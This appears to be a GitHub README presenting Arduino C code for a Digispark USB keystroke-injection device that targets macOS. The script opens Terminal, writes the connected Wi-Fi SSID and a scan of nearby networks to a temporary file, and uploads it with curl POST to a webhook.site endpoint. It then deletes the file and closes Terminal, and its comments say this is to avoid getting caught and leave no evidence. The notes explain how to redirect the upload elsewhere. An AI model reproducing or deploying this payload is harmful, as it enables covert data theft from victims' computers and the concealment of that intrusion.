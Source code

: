 # Wi-Fi Name

### This script extracts the Wi-Fi SSID the host is connected to and pushes that and the local wifi networks to an online website.

## Code

```c
#include "DigiKeyboard.h"
#define MOD_CMD_LEFT 0x00000008 //marks the keyboard location for the Command key
boolean hack = true;

void setup() {
  // put your setup code here, to run once:
}

void loop() {
  // put your main code here, to run repeatedly:
  if (hack == true){
    DigiKeyboard.sendKeyStroke(KEY_SPACE, MOD_CMD_LEFT); //Space + Command Keys
    DigiKeyboard.delay(500); //5 milisecond delay
    DigiKeyboard.print("Terminal"); //Opens the Terminal
    DigiKeyboard.delay(300);
    DigiKeyboard.sendKeyStroke(KEY_ENTER); 
    DigiKeyboard.delay(500);
    DigiKeyboard.print("cd /tmp"); //Goes to the Temporary Directory
    DigiKeyboard.sendKeyStroke(KEY_ENTER);
    DigiKeyboard.delay(300);
    DigiKeyboard.print("echo 'This computers connected SSID is:' >> wifi.txt"); //Goes to the Temporary Directory
    DigiKeyboard.sendKeyStroke(KEY_ENTER);
    DigiKeyboard.delay(300);
    DigiKeyboard.print("/Sy*/L*/Priv*/Apple8*/V*/C*/R*/airport -I | awk '/ SSID:/ {print $2}' >> wifi.txt"); //https://apple.stackexchange.com/a/176703
    DigiKeyboard.sendKeyStroke(KEY_ENTER);
    DigiKeyboard.delay(300);
    DigiKeyboard.print("/System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport -s >> wifi.txt"); //Uses the Apple 80211 Framework to get the local Wi-Fi netoworks
    DigiKeyboard.sendKeyStroke(KEY_ENTER);
    DigiKeyboard.delay(5000);
    DigiKeyboard.print("curl -X POST -F data=@wifi.txt https://webhook.site/"); //Uses curl to export; Enter your own webhook.site here
    DigiKeyboard.sendKeyStroke(KEY_ENTER);
    DigiKeyboard.delay(10000); //10 seconds in case of wifi bottleneck
    DigiKeyboard.print("rm wifi.txt");
    DigiKeyboard.sendKeyStroke(KEY_ENTER);
    DigiKeyboard.sendKeyStroke(KEY_Q, MOD_CMD_LEFT); //Command + Q; To close the terminal to avoid getting caught.
    hack = false; //Changes the boolean to false
  }
}
```

## Notes

This code can be modified at line 30 to push the file to another website using the POST feature of curl. This also makes a clean exit on macOS, by deleting the file and exiting the terminal so there is no hard evidence.

